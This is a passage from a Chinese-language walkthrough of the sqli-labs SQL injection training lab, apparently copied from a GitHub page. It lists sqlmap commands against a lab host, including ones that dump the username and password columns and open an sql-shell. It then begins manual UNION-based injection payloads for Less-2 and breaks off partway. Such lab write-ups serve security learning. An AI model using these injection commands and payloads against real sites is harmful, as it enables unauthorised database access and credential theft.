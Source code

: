 ```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" -D security -T users --columns
```

查看表字段内容

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" -D security -T users --columns -C "username,password" -dump
```

进入sql-shell

```
 sqlmap -u "daishen.ltd:1112/Less-1/?id=1" --sql-shell
```

随机agent

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" --random-agent
```

多线程

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" --threads=4
```

导出HTTP详细请求

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" -t http.log
```

# Less-2 

**GET - Error based - Intiger based (基于错误的GET整型注入)**



### 方法一：**手工UNION联合查询注入**

1.判断是否能够注入

```
http://daishen.ltd:1112/Less-2/?id=1
```

2.判断表中存在几个字段

```
id=1 order by 3 --+
```

3.判断字段位置

```
id=1 and 1=2 union select 1,2,3 --+
```

4.爆所有库.
